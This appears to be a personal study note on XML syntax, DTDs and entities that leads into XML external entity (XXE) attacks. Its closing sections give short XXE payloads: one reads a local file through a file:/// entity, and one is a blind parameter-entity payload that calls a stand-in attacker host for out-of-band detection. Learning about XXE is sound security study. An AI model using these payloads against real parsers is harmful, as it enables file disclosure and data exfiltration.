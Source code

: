 # XML

## Some definitions and introductions
- [source](https://learnxinyminutes.com/docs/xml/) 
```xml
<!-- This is a comment. It must not contain two consecutive hyphens (-). -->
<!-- Comments can span
  multiple lines -->

<!-- Elements -->
<!-- An element is a basic XML component. There are two types, empty: -->
<element1 attribute="value" /> <!-- Empty elements do not hold any content -->
<!-- and non-empty: -->
<element2 attribute="value">Content</element2>
<!-- Element names may only contain alphabets and numbers. -->

<empty /> <!-- An element either consists an empty element tag… -->
<!-- …which does not hold any content and is pure markup. -->

<notempty> <!-- Or, it consists of a start tag… -->
  <!-- …some content… -->
</notempty> <!-- and an end tag. -->

<!-- Element names are case sensitive. -->
<element />
<!-- is not the same as -->
<eLEMENT />

<!-- Attributes -->
<!-- An attribute is a key-value pair and exists within an element. -->
<element attribute="value" another="anotherValue" many="space-separated list" />
<!-- An attribute may appear only once in an element. It holds just one value.
  Common workarounds to this involve the use of space-separated lists. -->

<!-- Nesting elements -->
<!-- An element's content may include other elements: -->
<parent>
  <child>Text</child>
  <emptysibling />
</parent>
<!-- Standard tree nomenclature is followed. Each element being called a node.
  An ancestor a level up is the parent, descendants a level down are children.
  Elements within the same parent element are siblings. -->

<!-- XML preserves whitespace. -->
<child>
  Text
</child>
<!-- is not the same as -->
<child>Text</child>
```
## Well-formedness and Validation
- [source](https://learnxinyminutes.com/docs/xml/) 
```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE bookstore SYSTEM "Bookstore.dtd">
<!-- Declares that bookstore is our root element and 'Bookstore.dtd' is the path
  to our DTD file. -->
<bookstore>
  <book category="COOKING">
    <title lang="en">Everyday Italian</title>
    <author>Giada De Laurentiis</author>
    <year>2005</year>
    <price>30.00</price>
  </book>
</bookstore>
```
- The DTD file (Bookstore.dtd):
```xml
<!ELEMENT bookstore (book+)>
<!-- The bookstore element may contain one or more child book elements. -->
<!ELEMENT book (title, price)>
<!-- Each book must have a title and a price as its children. -->
<!ATTLIST book category CDATA "Literature">
<!-- A book should have a category attribute. If it doesn't, its default value
  will be 'Literature'. -->
<!ELEMENT title (#PCDATA)>
<!-- The element title must only contain parsed character data. That is, it may
  only contain text which is read by the parser and must not contain children.
  Compare with CDATA, or character data. -->
<!ELEMENT price (#PCDATA)>
```
- The DTD could be declared inside the XML file itself:
```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE bookstore [
<!ELEMENT bookstore (book+)>
<!ELEMENT book (title, price)>
<!ATTLIST book category CDATA "Literature">
<!ELEMENT title (#PCDATA)>
<!ELEMENT price (#PCDATA)>
]>

<bookstore>
  <book category="COOKING">
    <title>Everyday Italian</title>
    <price>30.00</price>
  </book>
</bookstore>
```
## What are XML custom entities?

`<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>` -> any usage of the entity reference `&myentity;` = "`my entity value`"

## What are XML external entities?

ex: `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>` 
-> (file protocol in url): `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`

-  a type of custom entity whose definition is *located outside* of the DTD
- The declaration of an external entity uses the **`SYSTEM`** keyword
- it must specify a *URL* from which the *value of the entity should be loaded*
- this is where [[OLD/WEB/vulnerabilities/XML vulnerabilities/XXE/concepts and defense|XXE]] arises 

## What are XML Parameter entities?
[source](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#what-are-xml-parameter-entities)

ex: `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`
  -> blind XXE using out-of-band detection
  
- XML parameter entities are a special kind of XML entity which can <mark style="background: #ADCCFFA6;">only be referenced elsewhere within the DTD</mark>.
- the **declaration** of an XML parameter entity *includes the percent character before the entity name*
  -> `<!ENTITY % myparameterentity "my parameter entity value" >`
- parameter entities are **referenced** using the *percent character instead of the usual ampersand*
  -> `%myparameterentity;`
